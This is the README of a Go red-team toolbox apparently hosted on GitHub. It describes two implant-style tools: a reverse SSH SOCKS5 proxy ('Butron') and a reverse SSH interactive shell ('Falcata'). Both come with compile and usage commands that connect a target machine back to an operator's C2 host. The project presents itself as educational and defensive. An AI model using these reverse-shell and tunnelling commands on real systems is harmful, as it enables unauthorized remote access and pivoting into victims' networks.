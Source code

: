 Pertrechos
===========================

*pertrechos: Red Team Tool Set*

.. image::  https://github.com/rebujacker/SiestaTime/blob/master/src/client/electronGUI/static/icons/png/STicon.png
    :height: 64px
    :width: 64px
    :alt: STime logo

+----------------+--------------------------------------------------+
|Project site    | https://github.com/rebujacker/Pertrechos          |
+----------------+--------------------------------------------------+
|Issues          | https://github.com/rebujacker/Pertrechos/issues/  |
+----------------+--------------------------------------------------+
|Author          | Alvaro Folgado (rebujacker)                       |
+----------------+--------------------------------------------------+
|Documentation   |https://github.com/rebujacker/Pertrechos/README.rst|
+----------------+--------------------------------------------------+
|Last Version    | Beta                                              |
+----------------+--------------------------------------------------+
|Golang versions | 1.10.3 or above                                   |
+----------------+--------------------------------------------------+



What is Pertrechos? What is its Purpose?
===================================================

Pertrechos is a toolbox repo. that will contain simple code-snippets in go to perform different useful actions to help offSec. operations/projects.

For the moment, they will be simple extracts of features that SiestaTime framework has already in place, but with the freedom of a simple binary or source ready to be used.

Each tool will normally focus in one type of feature and should work for three platforms: Linux,Windows and OSX

This tool has both **Educational Purposes** and aims to help **security industry** and **defenders**.


Butron - Reverse SSH SOCKS5
===================================

Open a SOCKS5 in a target SSH server, by using a reverse SSH connection from the device.
Basically like doing "ssh -i key.pem -D user@<ImplantSSHServer>" from our C2. 

If you want to test the functionality, use a browser (EG. Mozilla) and set a SOCKS5 proxy towards your C2 SOCKS5 opened.


Compile and Use:

.. code-block:: bash

    petrechos.sh butron <windows/darwin/linux> <amd64/386>
    ./butron <key.pem> <SSHuser> <C2IP:Port> <IPtoListen:Port> <OptionalParamLog>

Rememeber that your C2 sshd needs to have "GatewayPorts yes" in /etc/ssh/sshd.conf to be able to listen to 0.0.0.0


Sources Used:
    - https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/
    - https://github.com/armon/go-socks5
    - https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3

Falcata - Reverse SSH Full Interactive Terminal (Linux,Darwin, TBD Windows)
===========================================================================================

Full Interactive shell. The "Egress" will connect using SSH to target C2, and serve a full interactve shell in a listener.
The "Connect" will take care of terminal channels/etc... to have a full interactive session. 

<TBD> Full Interactive mirror for windows.

Compile and Use:

.. code-block:: bash

    petrechos.sh falcata <windows/darwin/linux> <amd64/386>
    ./falcata egress <key.pem> <SSHuser> <C2IP:Port> <IPtoListen:Port>
    ./falcata connect <IPtoListen:Port>


Sources Used:
    - https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
    - https://dev.to/napicella/linux-terminals-tty-pty-and-shell-part-2-2cb2
    - https://gist.github.com/napicella/777e83c0ef5b77bf72c0a5d5da9a4b4e



Contributing
=============================

Any collaboration is welcome! Feel free to contact me.

There are many tasks to do. You can check the `Issues <https://github.com/rebujacker/Pertrechos/issues/ >`_ and send us a Pull Request.


Disclaimer
===================================

Author/Contributors will not be responsible for the malfunctioning or weaponization of this code

License
========================

This project is distributed under `GPL V3 license <https://github.com/rebujacker/Pertrechos/LICENSE>`_
